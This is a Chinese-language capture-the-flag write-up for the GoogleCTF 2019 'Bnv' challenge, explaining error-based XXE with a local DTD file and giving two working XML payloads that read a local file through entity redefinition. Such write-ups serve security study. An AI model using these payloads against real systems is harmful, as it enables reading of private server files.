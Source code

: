 ## [GoogleCTF2019 Quals]Bnv

把 `Content-Type` 改成 `application/xml` 会发现有 xxe, 并且有错误回显

服务器不出网, 考虑利用本地 dtd 文件来进行 error-based xxe

参考文章如下

[https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/](https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/)

[https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

原理就是如果同一个实体被定义了两次, 那么在引用的时候只会引用第一次定义的实体

然后 xml 规范规定禁止在内部实体中使用参数实体, 需要通过引用外部 dtd 来绕过限制

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % local SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval;
    '>
    %local;
]>
<root>
<message>123</message>
</root>
```

![image-20221220194136808](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212201941884.png)

在第一篇文章中作者给出了另外一种无需引用外部 dtd 的构造方式

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % eval1 '
        <!ENTITY &#x25; eval2 "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval2;
    '>
    %eval1;
]>
<root>
<message>123</message>
</root>
```
